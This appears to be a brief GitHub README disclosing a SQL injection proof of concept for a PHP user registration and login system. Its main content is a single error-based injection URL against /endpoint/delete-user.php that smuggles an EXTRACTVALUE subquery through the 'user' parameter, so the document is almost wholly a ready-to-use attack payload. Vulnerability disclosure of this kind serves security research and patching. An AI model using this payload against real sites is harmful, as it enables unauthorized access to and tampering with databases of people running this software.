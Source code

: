 # user-registration-and-login-system-SQLi-PoC
SQL injection vulnerability PoC for (User Registration and Login System by rems)

Author : Abdelhamid Aghamir
vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html
Vulnerability File: /endpoint/delete-user.php

[+] PoC: 
/endpoint/delete-user.php?user=1' AND EXTRACTVALUE(4432,CONCAT(0x5c,0x716b767671,(SELECT (CASE WHEN (ISNULL(JSON_STORAGE_FREE(NULL))) THEN 1 ELSE 0 END)),0x7171787171))-- XXX
